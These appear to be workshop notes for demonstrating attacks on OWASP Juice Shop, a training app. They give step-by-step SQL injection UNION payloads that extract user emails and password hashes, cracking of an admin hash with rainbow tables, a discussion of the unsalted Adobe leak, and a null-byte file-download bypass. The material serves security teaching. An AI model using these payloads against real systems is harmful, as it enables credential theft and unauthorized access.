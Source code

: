 # Demo 1: SQL Injection obtaining user list
Source: https://pwning.owasp-juice.shop/appendix/solutions.html#retrieve-a-list-of-all-user-credentials-via-sql-injection

1. Find the search URL in network tab
2. Unimplemented logic
3. Test with query
4. Let's terminate the query `'))--` 
5. Let's try a UNION select to get more data `')) UNION SELECT * FROM x--`, Notice that descriptive errors help our attack
6. First try users `')) UNION SELECT * FROM Users--`
7. `')) UNION SELECT '1' FROM Users--`
8. `')) UNION SELECT '1','2' FROM Users--`
9. Skip ahead `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` we see no data yet do to union not matching.
10. Lets get rid of the data `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--`
11. `qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` guess names, or use other means.

# Demo 2: Show rainbow tables with leaked users
1. Get hash for admin from rest endpoint.
2. Put hash in https://crackstation.net/
3. See admin password & login

# Demo 3: Discuss the greatest crossword puzzle
1. Hack from adobe, passwords were not salted
2. Hashed in 8 bit blocks
3. As a result you could know what range the length of the password was in
4. The same passwords resulted in the same hash
5. Meaning you had multiple hints

# Demo 4: Misconfigurations
1. Go to about page
2. Inspect source link to FTP
3. Try and download something
4. Use Null Byte `%2500.md` to download the file